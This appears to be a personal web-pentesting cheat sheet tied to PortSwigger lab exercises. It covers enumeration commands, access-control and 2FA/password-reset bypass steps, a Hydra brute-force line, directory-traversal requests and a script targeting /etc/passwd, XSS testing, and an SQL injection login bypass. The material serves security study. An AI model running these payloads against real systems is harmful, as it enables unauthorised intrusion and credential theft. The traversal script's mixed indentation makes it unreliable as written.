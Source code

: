 # Web Application Enumeration

Tools:
 - https://www.wappalyzer.com/ --> technology lookup
 - https://www.shodan.io/host/$TARGET --> technology lookup and server informations

Resources:
 - https://medium.com/api-center/api-bites-7373b2127ed1 --> API Path Conventions
 - https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d --> Fuzzing wordlist

``` bash
# Web Server Enumeration
nc $TARGET 80
telnet $TARGET 80
sudo nmap -p80,443 -sV $TARGET
sudo nmap -p80,443 -sS --script=http* $TARGET
sudo nmap -p80 --script=http-enum $TARGET
sudo nmap -p80 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET
```

Other tools:
 - whatweb
 - wafw00f

# Directory Enumeration

Resources:
 - https://medium.com/api-center/api-bites-7373b2127ed1 --> API path conventions
 - https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d --> API Fuzzing
 - https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/ --> GoBuster cheatsheet

Directory:
``` bash
curl https://$URL/robots.txt              # check robots file
curl https://$URL/security.txt            # check security file
curl https://$URL/.well-know/security.txt # check security file
gobuster dir -u {TARGET} -w /usr/share/wordlists/...
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -p pattern.txt # create a file "pattern.txt" and use the {GOBUSTER} placeholder: {GOBUSTER}/v1 {GOBUSTER}/v2
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -x $EXT # search for extension
feroxbuster --url {TARGET} --depth 2 --wordlist /usr/share/wordlists/... --rate-limit REQUESTS_PER_SECOND # rate limit useful for Error 429: many requests
```

API:
``` bash
curl -i https://$URL/test/v1/item                                   # check API method
curl -G -d "param1=value1" $URL                                     # GET
curl -X PUT -d '{"test"}' -H "Content-Type: application/json" $URL  # PUT
curl -d '{"param1":"val1", "param2":"val2"}' -H "Content-Type: application/json" $URL # test API method
curl -d "param1=value1&param2=value2" -X POST $URL # default application/x-www-form-urlencoded
curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST $URL # explicit application/x-www-form-urlencoded
curl -d "@data.txt" -X POST $URL # data file
```

# Access Control Bypass

## Edit User Role
Ex: https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile
 - From a valid user access try to edit some valid parameter to get the POST request
 - Add a parameter in the POST request (by BurpSuite Repeater)
 - Very the new role, es: access the admin panel

## Horizontal privilege escalation
Ex: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect
 - Navigate the user's pages
 - Try to change page's parameter like userid, username, ...

## Insicure direct object reerences
Ex: https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references
 - Check all static information: file path, image, ...
 - Try to find other static file (file name guessing)

## Bypass URL-based access controll
Ex: https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented
 - If the application use X-Original-URL header:
  - Add the X-Original-URL header to the request --> X-Original-URL: /test
  - If the result is Not Found the application processing the request
  - Try to access to the admin path --> X-Original-URL: /admin
  - Use parameter by the GET request --> GET /?username=test

## Method-based access control
Ex: https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented
 - Browse the admin method and test POST action
 - Try to use the same method with non-admin user (send the request to repeater, use the non-admin session cookie)
 - Use the func. "change request method" in BurpSuite to modify the request

## Referer-base access control
Ex: https://portswigger.net/web-security/access-control/lab-referer-based-access-control
 - Browse the admin method and test POST action
 - Use the same request of the admin user with non-admin session cookie

# Authentication Bypass

## 2FA Bypass (simple)
Ex: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass
 - Access by user+passwd and 4 digit code (by email)
 - Verify the page post-login and pre-digit

## Password Reset
Ex: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic
 - With a valid user try a password reset
 - Inspect the password reset request, check the authentication parameter (es: token)
 - try to:
  - remove the token or the token value
  - change the username / password to reset to modify other users credentials

## Brute Force
 - Burp Suite Cluster Bomb

 - Hydra Brute force
  - Create a user and password list

``` bash
hydra $URL http-form-post "/login:user=^USER^&pass=^PASS^:Invalid username or password." -L users.txt -P pass.txt -t 5 -w 60 -o output.txt
```

# Directory traversal

Sample:
``` bash
curl http://$DOMAIN/$PATH/../../.././etc/passwd
curl http://$DOMAIN/$PATH/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  # url encoding "../"
```

Script:
``` python
# usege: python3 $scriptname http://1.2.3.4/path/for/app/ 10 /tmp/test.txt
import sys, subprocess

url = sys.argv[1] # URL target
max_iteration = int(sys.argv[2])+1
filetocheck = sys.argv[3]
elements = ['../', '%2e%2e/', '%2e%2e%2f', '..%2f', '..%c0%af'] # extend

for element in elements:
  for i in range(1, max_iteration):
    path = element*i
		curl_command = ["curl", "{0}{1}{2}".format(url, path, filetocheck)]
		res = subprocess.run(curl_command, capture_output=True, text=True)
		print("Check for {0}{1}{2}".format(url, path, filetocheck))
		print(res.stdout)
```

# Cross Site Scripting

Resources:
 - https://github.com/payloadbox/xss-payload-list --> Payload list

Search input field
``` bash
curl -i $URL | grep '<input'
```

Test for DOM XSS
 - Enable DOM Invader form BurpSuite browser
 - Go to Inspect / DOM Invader (tab)
  - clink on "Copy Canary"
  - paste in input field, go on
  - check the result in "DOM" panel

# SQL Injection

Bypass login, in login field:
``` sql
admin' --
```

In password field: some string if required or ' "

Query diff:
``` sql
SELECT * FROM users WHERE user = '$var1' AND pass = '$var2';
SELECT * FROM users WHERE user = 'admin' -- AND pass ...
```


